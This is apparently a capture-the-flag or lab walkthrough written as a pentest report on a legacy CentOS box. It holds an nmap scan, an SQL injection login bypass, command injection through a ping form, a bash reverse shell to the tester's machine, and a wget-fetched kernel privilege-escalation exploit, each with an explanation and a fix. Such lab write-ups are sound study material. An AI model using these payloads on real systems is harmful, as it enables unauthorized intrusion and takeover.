

# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Wed May 25 22:52:16 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.134
Nmap scan report for 192.168.65.134
Host is up (0.0021s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.0.52 (CentOS)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            627/udp   status
|_  100024  1            630/tcp   status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_http-server-header: Apache/2.0.52 (CentOS)
|_ssl-date: 2022-05-25T23:43:02+00:00; -3h09m37s from scanner time.
630/tcp  open  status   1 (RPC #100024)
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4C:24:00 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

Host script results:
|_clock-skew: -3h09m37s

TRACEROUTE
HOP RTT     ADDRESS
1   2.11 ms 192.168.65.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 25 22:52:49 2022 -- 1 IP address (1 host up) scanned in 33.84 seconds
```
</br>

Port 80, Website Main page: </br>
 </br>
This admin panel was vulnerable to SQL Injection, I was able to get inside using this payload: </br>
```' or '1'='1``` </br>

 </br>
The web server was asking for an address to ping, and this ping utility script was vulnerable to code injection: </br>
 </br>
To insert an additional command to the ping utility I did this: ```127.0.0.1 && whoami``` </br>
To gain a reverse shell I did this: </br>
Kali Linux: ```nc -nlvp 1234``` </br>
Web Server: ```127.0.0.1 && bash -i >& /dev/tcp/192.168.65.128/1234 0>&1``` </br>
**Vulnerability Explanation:** </br>
```OS Command Injection:``` </br>
OS Command Injection (also known as shell injection) is a web security vulnerability that allows an
attacker to execute an arbitrary operating system (OS) commands on the server that is running an
application, and typically fully compromise the application and all its data. </br>
```SQL Injection:``` </br>
SQL injection occurs when specially crafted user input is processed by the receiving program in a way
that allows the input to exit a data context and enter a command context. A successful SQL injection
exploit can read sensitive data from the database,modify database data,execute administration operations
on the database,recover the content of a given file present on the DBMS file system and in some cases
issue commands to the operating system. </br>
**Vulnerability Fix:** </br>
```OS Command Injection:``` </br>
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS
commands from application-layer code. In virtually every case, alternate ways of implementing the
required functionality are using safer platform APIs.
If it is considered unavoidable to call out to OS commands with user-supplied input, then strong input
validation must be performed. </br>
```SQL Injection:``` </br>
Most instances of SQL injection can be prevented by using parameterized queries (also known as
prepared statements) instead of string concatenation within the query. </br> </br>
**Initial Shell Screenshot:** </br>
 </br>
# Privilege Escalation:
I checked the kernel version of the machine with the command: ```uname -a``` </br>
 </br>
I found an exploit in [Exploit-DB](https://www.exploit-db.com/exploits/9542) </br>
**File Transferring:** </br>
I opened an HTTP server on my Kali machine with this command:
```python -m http.server 80``` </br>
Since wget command was installed on the machine, I downloaded the exploit to the /tmp folder: </br>
```wget 192.168.65.128/kernel.c``` </br>
Compiled it: </br>
```gcc kernel.c -o kernel``` </br>
Gave it Execution Permissions: </br>
```Chmod +x kernel``` </br>
**Vulnerability Exploited:** CentOs Kernel 2.6 Exploit. </br>
**Vulnerability Explanation:** The udp_sendmsg function in the UDP implementation in (1) net/ipv4/udp.c
and (2) net/ipv6/udp.c in the Linux kernel before 2.6.19 allows local users to gain privileges or cause a
denial of service (NULL pointer dereference and system crash) via vectors involving the MSG_MORE
flag and a UDP socket. </br> </br>
**Proof Of Screenshot:** </br>


